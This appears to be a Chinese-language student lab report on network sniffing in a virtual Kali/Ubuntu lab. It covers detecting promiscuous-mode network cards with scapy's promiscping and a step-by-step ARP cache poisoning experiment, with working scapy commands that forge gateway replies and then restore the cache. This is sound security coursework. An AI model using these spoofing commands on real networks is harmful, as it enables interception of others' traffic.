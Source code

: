 # 网络监听

## 实验准备

网络中的节点基本信息如下：

- 攻击者主机：Kali
  - 08:00:27:d0:11:c7 / eth0
  - 172.16.111.124
- 受害者主机：Kali
  - 08:00:27:37:d3:99/ eth0
  - 172.16.111.102
- 网关：Ubuntu18.04
  - 08:00:27:81:53:7d/ enp0s8
  - 172.16.111.1

### 安装scapy

- 在攻击者主机上安装scapy

  安装 python3`sudo apt update && sudo apt install python3 python3-pip`

  `pip3 install scapy[complete]`

**安装完成**

<img src="images/安装scapy.png" style="zoom: 40%;" />

##  实验一：检测局域网中的异常终端

- 在受害者主机上检查网卡的「混杂模式」是否启用

  `ip link show eth0`

  <img src="images/victim-检查网卡的「混杂模式」是否启用.png" style="zoom:50%;" />

- 在攻击者主机上开启 scapy

  `sudo scapy`

  <img src="images/attacker-开启 scapy.png" style="zoom:50%;" />

- 在 scapy 的交互式终端输入以下代码回车执行

  `pkt = promiscping("172.16.111.102")`

  <img src="images/attacker-scapy代码执行.png" style="zoom:50%;" />

-  回到受害者主机上开启网卡的『混杂模式』

  注意上述输出结果里应该没有出现 PROMISC 字符串

  手动开启该网卡的「混杂模式」

  `sudo ip link set eth0 promisc on`

- 发现输出结果里多出来了 PROMISC 
  `ip link show eth0`

  <img src="images/victim-开启该网卡的「混杂模式」.png" style="zoom:50%;" />

- 回到攻击者主机上的 scapy 交互式终端继续执行命令

  `pkt = promiscping("172.16.111.102")`

  <img src="images/attacker-输出结果-2.png" style="zoom:50%;" />

- 在受害者主机上

  手动关闭该网卡的「混杂模式」

  `sudo ip link set eth0 promisc off`

##  实验二：手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 `scapy` 交互式终端完成

- 获取当前局域网的网关 MAC 地址

- 构造一个 ARP 请求

  `arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")`

- 查看构造好的 ARP 请求报文详情
  `arpbroadcast.show()`

  <img src="images/attacker-查看构造好的 ARP 请求报文详情.png" style="zoom:50%;" />

- 发送这个 ARP 广播请求
  `recved = srp(arpbroadcast, timeout=2)`

  <img src="images/attacker-发送ARP 广播请求.png" style="zoom:50%;" />

- 网关 MAC 地址如下
  `gw_mac = recved[0][0][1].hwsrc`

- 伪造网关的 ARP 响应包

  准备发送给受害者主机 172.16.111.102

  ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  `arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.102", hwdst="08:00:27:d0:11:c7")`

- 发送上述伪造的 ARP 响应数据包到受害者主机
  `sendp(arpspoofed)`

  <img src="images/attakcer-发送伪造的 ARP 响应数据包到受害者主机.png" style="zoom:50%;" />

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

`ip neigh`

<img src="images/victim-查看 ARP 缓存.png" style="zoom:50%;" />

回到攻击者主机上的 scapy 交互式终端继续执行命令。

- 恢复受害者主机的 ARP 缓存记录

  - 伪装网关给受害者发送 ARP 响应
    `restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:81:53:7d", pdst="172.16.111.102", hwdst="08:00:27:37:d3:99")`
    `sendp(restorepkt1, count=100, inter=0.2)`

  <img src="images/attacker-伪装网关给受害者发送 ARP 响应.png" style="zoom:50%;" />

此时在受害者主机上准备“刷新”网关 ARP 记录。

- 在受害者主机上尝试 ping 网关
  `ping 172.16.111.1`

- 静候几秒 ARP 缓存刷新成功，退出 ping

- 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
  `ip neigh`

  <img src="images/victim-再次查看ARP缓存.png" style="zoom:50%;" />


### 实验中遇到的问题
实验二ARP欺骗失败
在victim上使用tcpdump抓包未见异常？
  <img src="images/victim-tcpdump.png" style="zoom:50%;" />
